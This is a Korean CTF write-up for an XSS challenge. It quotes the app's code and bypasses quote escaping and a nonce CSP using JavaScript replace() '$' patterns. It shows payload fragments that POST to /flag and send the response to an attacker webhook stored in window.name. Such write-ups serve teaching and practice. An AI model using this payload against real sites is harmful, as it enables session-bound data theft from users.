

# antisocial media

XSS 문제이다.
먼저 flag를 얻기 위해선 /flag에 admin password를 가진 secret쿠키를 통해 요청을 하면 된다.

```
app.post('/flag', (req, res) => {
	const ADMIN_PW = process.env.ADMIN_PW || 'placeholder';
	const FLAG = process.env.FLAG || 'lactf{test_flag}';
	if (req.cookies.secret !== ADMIN_PW) {
		res.status(403).send({ success: false });
		return;
	}

	res.send(FLAG);
});

```

admin password값은 bot의 쿠키에 저장되어있는데 코드는 다음과 같다.

```
const crypto = require("crypto");

module.exports = {
    name: "antisocial-media",
    async execute(browser, url) {
        const page = await browser.newPage();

        // Sets the FLAG cookie.
        await page.setCookie({
            name: "secret",
            value: process.env.CHALL_ANTISOCIAL_MEDIA_ADMIN_PW || "placeholder",
            domain: process.env.CHALL_ANTISOCIAL_MEDIA_DOMAIN || "localhost",
            httpOnly: true,
            sameSite: "Lax",
        });

        // Logins to the site.
        await page.goto(process.env.CHALL_ANTISOCIAL_MEDIA_URL || "http://localhost:3000");
        await page.waitForSelector("#username");
        await page.type("#username", crypto.randomBytes(32).toString("hex"));
        await page.type("#password", crypto.randomBytes(32).toString("hex"));
        await page.click("#login");
        await page.waitForNavigation();

        // Visits the given URL.
        await page.goto(url);
        await page.waitForNetworkIdle({
            timeout: 10000,
        });
        await page.close();
    },
};
```

쿠키를 보면은 httpOnly로 되어있기 때문에 xss를 통해 직접 /flag에 post요청을 날려야 한다.

웹사이트 로직은 다음과 같다.

1. 로그인
2. profile에 문구 추가

로그인은 아무 값이나 넣으면 되고 profile에서 문구가 추가될때 문제가 발생한다.

```
async function renderTemplate(view, params) {
	const template = await fs.readFile(`views/${view}.html`, {
		encoding: 'utf8'
	});
	const html = Object.entries(params).reduce(
		(p, [k, v]) => p.replace(new RegExp(`{{${k}}}`, 'g'), v),
		template
	);

	if (!params.notes) {
		return html;
	}

	return html.replace(
		'{{...notes}}',
		`[${params.notes
			.map(
				n =>
					`'${n
						.replace(/'/g, '&apos;')
						.replace(/\n/g, '')
						.replace(/\r/g, '')
						.replace(/\\/g, '\\\\')}'`
			)
			.join(', ')}]`
	);
}

app.get('/profile', async (req, res) => {
	if (!req.session || !req.session.username) {
		res.redirect('/');
		return;
	}

	res.send(
		await renderTemplate('profile', {
			nonce: res.locals.nonce,
			username: req.session.username,
			notes: req.session.notes || []
		})
	);
});
```

코드를 보면 직접 view의 profile.html에서 값을 가져와서 {{username}} 같은 부분을 직접 치환하고 마지막에 {{...notes}} 부분에 `',\n, \r, \` 같은 구문을 필터링하여 return한다.

profile.html전체 코드는 다음과 같다.

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Antisocial Media</title>
    <link rel="shortcut icon" href="/favicon.ico">
    <link rel="stylesheet" href="/styles.css">
</head>
<body>
    <nav>
        
        <span class="name">Antisocial Media</span>
        <button type="button" id="logout">Logout</button>
    </nav>

    <article>
        <div class="profile">
            <h1>Profile</h1>
            <p>Username: {{username}}</p>

            <h2>Add Note</h2>
            <input type="text" id="note-input" placeholder="Enter a note" autocomplete="off">
            <button type="button" id="addNote">Add Note</button>

            <div id="error"></div>

            <h2>Your Notes</h2>
            <ul id="note"></ul>
        </div>
    </article>

    <script nonce="{{nonce}}">
        const note = {{...notes}};
        const noteList = document.getElementById('note');
        for (const noteItem of note) {
            const li = document.createElement('li');
            li.textContent = noteItem;
            noteList.appendChild(li);
        }

        async function logout() {
            let res = await fetch('/api/logout', {
                method: 'POST'
            });

            if (!res.ok) {
                const error = document.getElementById('error');
                error.innerText = 'Logout failed. Please try again.';
                return;
            }

            window.location.href = '/';
        }

        const logoutButton = document.getElementById('logout');
        logoutButton.addEventListener('click', logout);

        async function addNote() {
            const note = document.getElementById('note-input').value;
            if (!note) {
                const error = document.getElementById('error');
                error.innerText = 'Note cannot be empty.';
                return;
            }

            let res = await fetch('/api/notes', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({ note })
            });

            if (!res.ok) {
                const error = document.getElementById('error');
                error.innerText = 'Failed to add note. Please try again.';
                return;
            }

            window.location.reload();
        }

        const addNoteButton = document.getElementById('addNote');
        addNoteButton.addEventListener('click', addNote);

        const noteInput = document.getElementById('note-input');
        noteInput.addEventListener('keydown', function(event) {
            if (event.key === 'Enter') {
                addNote();
            }
        });
    </script>
</body>
</html>

```

그리고 또 걸리는건 CSP가 적용되었다는 점이다.

```
app.use((_, res, next) => {
	res.locals.nonce = crypto.randomBytes(32).toString('base64');
	res.setHeader(
		'Content-Security-Policy',
		`default-src 'self'; script-src 'nonce-${res.locals.nonce}'`
	);
	next();
});

```

나는 먼저 username에 html을 삽입 가능하니 시도해보았지만 별 해결법이 없었다.

그러면 유일하게 남은 방법은 profile.html에서 note부분에 따옴표를 우회하는 것이다.
그러나 지금 코드에선 따옴표를 replace를 사용하여 html인코딩을 하고 있다.

이때, nodejs에서 replace엔 특이한 부분이 있다.

https://www.geeksforgeeks.org/how-to-escape-all-single-and-double-quotes-in-javascript/


바로 $를 통한 특수 치환 패턴이다.

만약 내가 저기서 $를 사용하면 replace를 할 때 특정 패턴에 의해 앞에 문구들이 그대로 들어온다.

ex)
초기 화면

$를 넣을 시


이걸 사용해서 여러번 막 시험해본 결과

username에 `{{notes}}`를 넣어 문구가 한번 꼬이게 만들고 (저렇게 하면은 html replace에 의해 저 부분에 배열값들이 들어감)
그다음 `` $`1;alert(1)//</script> `` 이런 값을 넣으면은
또 한번 꼬여 html에 예쁘게 alert(1)이 들어가진다.
과정을 자세히 설명하고 싶은데 그냥 막하다 얻어걸린거라... 이건 해보면서 파악해야한다.



그러면 문제는 저걸 사용해서 xss구문을 짜는건데...
지금 note에는 15문자 제한이 걸려있다.
때문에 여러번 집어넣는데 중간중간`,`가 포함되기에 이를 `/* */` 주석으로 무시해줘야 한다.

또 문제는 페이로드를 짜보면 알겠지만 /flag에 post요청하고 내 서버로 그 값을 전달하기에는 너무 길다.

때문에, 이를 window.name으로 줄였다.

window.name은 페이지 이동을 해도 값이 유지되는 값이다.(ex. fetch, location.href)

그래서 먼저

1. window.name에 flag받을 webhook 주소를 넣고
2. window.name으로 flag를 쏘는 코드를 note에다가 적은 다음
3. window.location으로 해당 문제 url로 이동시키게 했다.

대충 1번은

```
 const notes = [
      "$`</script>$`/*",
      "*/1;fetch(/*",
      '*/"/flag"/*',
      "*/,{method:/*",
      '*/"post"})./*',
      "*/then(_=>_./*",
      "*/text())./*",
      "*/then(_=>{/*",
      "*/location=/*",
      "*/name+_})//",
    ];

```

이런식으로 짜면 되고

나머지 full exploit은 다른 분 writeup이 예쁘게 되어있어 주소를 첨부하겠다.
https://ensy.zip/posts/2025-lactf-antisocial-media/
